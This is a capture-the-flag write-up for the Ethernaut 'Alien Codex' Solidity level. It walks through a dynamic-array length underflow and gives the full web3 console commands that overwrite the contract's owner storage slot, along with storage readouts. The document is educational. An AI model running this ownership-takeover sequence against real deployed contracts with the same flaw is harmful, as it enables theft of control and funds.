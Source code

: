 # Alien Codex

# Problem Statement
```
You've uncovered an Alien contract. Claim ownership to complete the level.

Things that might help
- Understanding how array storage works
- Understanding ABI specifications
- Using a very underhanded approach
```

# Solution
Because this is solidity version 5, there is a dynamic array underflow attack vector when using `.length--` on an array.
Lets check the contract's owner and storage 0 slot values:
```
await contract.owner()
// returns `0xda5b3Fb76C78b6EdEE6BE8F11a1c31EcfB02b272'
await web3.eth.getStorageAt(contract.address, 0, console.log)
// returns '0x000000000000000000000000da5b3fb76c78b6edee6be8f11a1c31ecfb02b272'
```
Notice that slot 0 is the owner storage location because it matches the `contract.owner()` value.<br>
This most likely also holds the `contact` boolean value because each slot is 32 bytes and the address variable `owner` is of type address so it is 20 bytes which leaves 12 bytes in the slot for a possible different variable value. We can validate this by running
```
await contract.make_contact()
```
Notice that there a change from `0` to `1` right before the `owner` address here:
```
await web3.eth.getStorageAt(contract.address, 0, console.log)
// returns '0x000000000000000000000001da5b3fb76c78b6edee6be8f11a1c31ecfb02b272'
```
Slot 1 holds the length of the dynamic array:
```
await web3.eth.getStorageAt(contract.address, 1, console.log)
// returns '0x0000000000000000000000000000000000000000000000000000000000000000'
```
Know that by setting the length of codex to the length of EVM storage (2**256)-1 and because the modify permissions is dependant on the `codex.length`, we can gain the ability to modify any slot of entire EVM storage except only one. Lets initial this underflow:
```
await contract.retract()
await web3.eth.getStorageAt(contract.address, 1, console.log)
// returns '0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff'
```
Now, we'll need to figure out how to use the `revise` method to modify the owner address. To do this we have to figure out the location of owner variable in storage as well as the offset index.
Here's where the values are located:
```
slot | variables                  | codex
0    | owner                      | codex[3]
1    | codex.length (==9)         | codex[4]
2    |                            | codex[5]
3    |                            | codex[6]
4    |                            | codex[7]
5    |                            | codex[8]
6    |                            | unreachable
7    | keccak256(bytes32(slot_1)) | codex[0]
8    |                            | codex[1]
9    |                            | codex[2]
```
We can use this equation if we imagine there are only 10 slots:
```
x = 10 - 7
```
So, for storage, the equation will be to find where owner exists which will be codex[x]:
```
x = 2²⁵⁶ - keccak256(bytes32(p))
```
In solidity it would look like this:
```
2**256 - 1 - uint256(keccak256(bytes32(p))) + 1
```
This is instead of `2**256 - uint256(keccak256(bytes32(p)))` because of compile error for the larger number operand than MAX_UINT256. Or 2 ** 256 - 1 - uint256(keccak256(abi.encode(1))) + 1 for Solc v0.5 or higher.<br>
So lets run this to get the correct storage slot and to gain ownership of the contract:
```
const p = web3.utils.keccak256(web3.eth.abi.encodeParameters(["uint256"],[1]))
const index = BigInt(2**256) - BigInt(p)
const content = '0x' + '0'.repeat(24) + player.slice(2)
await contract.revise(index, content, {from:player, gas:900000})
await contract.owner()
```

We've completed this lesson!

# Key Learnings
- Be aware of this attack vector older versions of Solidity.
